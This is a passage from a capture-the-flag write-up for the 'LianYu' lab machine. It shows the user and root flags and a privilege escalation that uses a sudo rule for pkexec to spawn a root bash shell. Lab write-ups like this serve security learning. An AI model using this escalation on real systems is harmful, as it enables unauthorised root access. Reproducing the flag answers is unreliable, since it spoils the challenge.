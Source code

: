 It worked! I found a file called **"user.txt"** in the current directory:
	
```
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak
```
	
That's the User Flag! Let's try to get a root shell!

I ran **sudo -l** and got:
	
```
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

Well, this will be easy. "pkexec" has the SUID set, which means it can run with sudo priveleges. Since "pkexec" allows one to run an arbitrary command as another user, I can use pkexec to get a bash shell as root:
	
```
slade@LianYu:~$ sudo pkexec /bin/bash
root@LianYu:~# 
```

Now I am root! There is a file called **root.txt** in the current directory:
	
```
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

That's it! I hope you found this useful!


	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	

